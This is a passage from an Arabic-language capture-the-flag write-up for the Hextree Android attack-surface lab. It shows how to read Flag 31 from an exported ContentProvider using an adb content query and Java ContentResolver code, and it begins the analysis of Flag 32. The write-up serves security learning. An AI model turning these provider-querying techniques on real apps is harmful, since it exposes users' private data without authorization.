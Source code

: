 ```java
                LogHelper logHelper = new LogHelper(getContext());
                logHelper.addTag(uri.getPath());
                success(logHelper);
            }
            return readableDatabase.query(FlagDatabaseHelper.TABLE_FLAG, strArr, "name=? AND visible=1", new String[]{"flag" + parseId}, null, null, str2);
        }
    }
}
```

الـ provider بيحدد نوعين من أنماط URI:

- `content://io.hextree.flag31/flags` → يطابق `FLAGS` (كود `1`)
- `content://io.hextree.flag31/flag/#` → يطابق `FLAG_ID` (كود `2`)، حيث `#` هو رقم تعريف

يعني لو دخلنا id، المطابقة الثانية هتشتغل لو كان 31 فالـ Uri هيبقى شكله كده `content://io.hextree.flag31/flag/31`

#### الحل

ADB:

```shell
adb shell content query --uri content://io.hextree.flag31/flag/31                                
```

الناتج: `Row: 0 _id=2, name=flag31, value=HXT{1111-qqqqqq-xxxxx-zzzz}, visible=1`

Java

```java
Uri uri = Uri.parse("content://io.hextree.flag31/flag/31");  
Cursor cursor = getContentResolver().query(uri, null, null, null, null);  
if (cursor.moveToFirst()) {  
    do {  
        StringBuilder sb = new StringBuilder();  
        for (int i = 0; i < cursor.getColumnCount(); i++) {  
            if (sb.length() > 0) sb.append(", ");  
            sb.append(cursor.getColumnName(i)).append(" = ").append(cursor.getString(i));  
        }  
        Log.d("evil", sb.toString());  
    } while (cursor.moveToNext());  
}
```

### Flag 32

#### تحليل الكود

```xml
 <provider
    android:name="io.hextree.attacksurface.providers.Flag32Provider"
    android:enabled="true"
    android:exported="true"
    android:authorities="io.hextree.flag32"
/>
```
